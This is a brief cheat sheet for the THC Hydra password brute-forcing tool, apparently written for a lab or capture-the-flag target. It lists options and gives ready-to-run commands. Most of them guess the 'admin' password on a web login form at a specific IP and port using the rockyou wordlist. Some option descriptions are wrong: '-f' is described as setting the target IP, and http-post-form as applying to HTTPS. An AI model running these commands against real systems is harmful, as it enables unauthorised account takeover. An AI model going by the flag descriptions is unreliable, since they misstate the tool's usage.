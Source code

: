 # THC Hydra


## Options

	-L <usersames_file>: file containins usernames to be bruteforced
	-P <passwords_file>: file containins passwords to be bruteforced

	-f <ip>: target ip
	-s <port>: target port

	http-post-form: option for brute force https forms


## Usage

How to run hydra to try passwords agains a service (like ssh):

	hydra -L usernames.txt -p 'password' {target_ip} service_name

Bruteforce web requests with a failed condition:

	hydra -l admin -P rockyou.txt -f 94.237.54.42 -s 54747 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Bruteforce web requests with a Succes condition

	hydra -l admin -P rockyou.txt -f 94.237.54.42 -s 54747 http-post-form "/:username=^USER^&password=^PASS^:S=302"
	hydra -l admin -P rockyou.txt -f 94.237.54.42 -s 54747 http-post-form "/:username=^USER^&password=^PASS^:S=Dashboard"
